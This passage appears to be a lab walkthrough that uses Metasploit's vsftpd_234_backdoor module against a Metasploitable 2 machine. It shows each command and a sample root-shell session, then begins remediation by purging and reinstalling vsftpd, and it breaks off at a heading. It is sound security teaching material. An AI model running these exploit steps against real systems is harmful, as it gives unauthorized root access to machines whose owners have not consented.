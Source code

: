 ### 1. Launch Metasploit
First, start the Metasploit Framewrok console.
```bash
msfconsole
```
### 2. Find and Select the Exploit
Use the `search` command to find the correct exploit module for this vulnerability.
```bash
search vsftpd 2.3.4
```
Metasploit will find the module `exploit/unix/ftp/vsftpd_234_backdoor`. Load this module using the `use` command.
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```
### 3. Configure and Run the Exploit
The only required option for this module is the remote host's IP address (`RHOSTS`). Set this to the IP of your Metasploitable 2 machine.
```bash
set RHOSTS <target_ip>
```
You can verify the options with the `show options` command. The `RPORT` is already set to 21 by default, which is correct. Now, run the exploit.
```bash
exploit
```
### 4. Session Opened
Metasploit will perform all the necessary steps automatically. If successful, it will find the open FTP port, send the malicious username, connect to the backdoor on port 6200, and present you with a command shell session.
```output
[*] <target_ip>:21 - Banner: 220 (vsFTPd 2.3.4)
[*] <target_ip>:21 - USER user:): 331 Please specify the password.
[+] <target_ip>:21 - Backdoor service has been spawned, handling...
[+] Found shell.
[*] Command shell session 1 opened (<local_ip>:43779 -> <target_ip>:6200) at 2025-06-11 10:35 EDT
```
As before, you now have a root shell and full control of the system, and just like before you can confirm this with the `id` command. The output should look the same (or similar) as before:
```output
uid=0(root) gid=0(root)
```
## Remidiation
Exploiting vulnerabilities is for learning, but fixing them is the ultimate goal of a security professional. The remediation for this issue is straightforward because this is not a simple bug—it is deliberately compromised software.
The only correct way to fix this vulnerability is to completely remove the malicious software and replace it with a legitimate, updated version.
### 1. Remove the Malicious Software
Use the system's package manager to completely uninstall the `vsftpd` package. For example, on a Debian-based system like Ubuntu, you would run:
```bash
sudo apt-get purge vsftpd
```
### 2. Install a Clean Version
Install `vsftpd` again from your distribution's official, trusted repositories. These repositories contain vetted software that does not have this backdoor.
```bash
sudo apt-get install vsftpd
```
### 3. Principle of Least Privilege